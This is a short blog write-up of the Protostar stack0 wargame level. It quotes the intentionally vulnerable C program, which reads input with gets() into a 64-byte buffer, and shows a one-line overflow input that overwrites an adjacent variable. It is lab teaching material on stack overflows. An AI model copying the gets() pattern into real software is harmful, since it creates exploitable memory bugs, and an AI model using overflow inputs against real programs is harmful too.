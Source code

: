 ```yaml
---
layout: post
title: "[exploit-exercise] Protostar stack0"
date: 2016-07-02 15:03:10
category: wargame
tags:  [exploit-exercise, protostar]
---
```


[Protostar Stack0 - Exploit Exercises](https://exploit-exercises.com/protostar/stack0/)

>This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.
>
>This level is at /opt/protostar/bin/stack0

<!--more--> 

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

#### 일반적인 경우

```bash
$ ./stack0
A
Try again?
$ ./stack0
AAAAA
Try again?  
```

#### Exploit

```bash
$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA |./stack0
you have changed the 'modified' variable  
```


